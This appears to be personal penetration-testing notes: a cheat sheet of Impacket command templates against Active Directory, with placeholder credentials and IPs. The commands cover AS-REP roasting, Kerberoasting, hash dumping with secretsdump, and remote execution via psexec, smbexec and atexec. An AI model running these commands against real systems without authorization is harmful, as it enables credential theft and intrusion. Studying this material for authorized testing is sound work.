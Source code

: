 >Impacket is one of the great AD enumeration toolset for Linux

### GetNPUser

``` zsh
impacket-GetNPUsers <DOMAIN>/<USERNAME>:'<PASSWORD>' -dc-ip <IP>
```

### PSExec

``` zsh
impacket-psexec <DOMAIN>/<USERNAME>:'<PASSWORD>'@<IP>
```

![[Pasted image 20240524104303.png]]


### GetUserSPNs

``` zsh
impacket-GetUserSPNs <DOMAIN>/<USERNAME>:'<PASSWORD>' -dc-ip <IP> -request 
```


### SecretsDump

*It takes the hashes from the SAM file*

``` zsh
impacket-secretsdump <DOMAIN>/<USERNAME>:'<PASSWORD>'@<IP>
```



### SMBExec

``` zsh
impacket-smbexec <DOMAIN>/<USERNAME>:'<PASSWORD>'@<IP>
```

![[Pasted image 20240524105427.png]]


### AtExec

``` zsh
impacket-atexec <DOMAIN>/<USERNAME>:'<PASSWORD>'@<IP> <COMMAND>
```

![[Pasted image 20240524110007.png]]
![[Pasted image 20240524110028.png]]


### DumpNTLMInfo

``` zsh
python DumpNTLMInfo.py <IP>
```

![[Pasted image 20240530095639.png]]